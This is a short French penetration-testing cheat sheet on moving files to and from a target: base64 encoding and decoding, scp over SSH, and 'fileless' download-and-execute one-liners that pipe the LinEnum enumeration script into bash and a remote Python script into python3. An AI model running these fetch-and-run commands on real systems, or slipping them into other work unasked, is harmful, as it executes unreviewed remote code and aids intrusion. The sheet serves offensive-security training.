 #### Réception de fichier en base64

```bash
cat $fichier | base64 -w 0;echo
```

```bash
echo -n '$base64' | base64 -d > $fichier
```

#### Télécharger un fichier et l'exécuter (fileless)

```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash

ou 

wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

#### Réception d'un fichier via SSH

```bash
sudo systemctl start ssh
```

```bash
scp $user@$monIp:$fichier .
```

